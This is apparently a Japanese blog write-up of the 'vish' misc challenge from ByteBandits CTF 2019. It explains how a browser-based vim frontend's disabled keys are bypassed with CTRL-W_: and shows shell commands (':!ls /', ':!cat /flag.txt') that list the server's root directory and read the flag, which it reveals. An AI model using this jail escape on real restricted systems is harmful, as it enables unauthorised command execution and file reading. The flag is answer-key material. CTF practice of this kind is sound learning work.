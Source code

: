 ```yaml
---
title: vish (ByteBandits CTF 2019)
tags: ["ByteBandits CTF 2019"]
categories: [CTF, misc]
---
```


{% asset_img problem.png %}

## 解説

とりあえず http://13.234.130.76:7003 にアクセスしてみる。

{% asset_img vim.png %}

最近使ったことがあるので `xterm.js` で `vim` のフロントエンドを作ってることはすぐにわかった。vim 系の問題は過去に何回かみたことがあって、基本的に無効化されたキー入力を突破してコマンドを実行する系だった。

今回の問題は `websockets` を使ってサーバーサイドで処理が行われているため、クライアントサイドをいじっても意味ない (たぶん)

とりあえず `vim` のマニュアル (日本語) を読み進めながら、1つずつ効果があるかどうか試していたところ [CTRL-W_:](https://vim-jp.org/vimdoc-ja/windows.html#CTRL-W_:) でコマンドが使えた。

あとは簡単で `:!ls /` でフラグっぽいのを探して

```
[No write since last change]
bin  boot  dev  etc  flag.txt  go  hello  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vim  vimrc

Press ENTER or type command to continue
```

`flag.txt` があったので、`:!cat /flag.txt` で終わり。

```
[No write since last change]
flag{bram_loves_jails}
```

## フラグ

`flag{bram_loves_jails}`

## 参考リソース

- [vimindex - Vim日本語ドキュメント](https://vim-jp.org/vimdoc-ja/vimindex.html)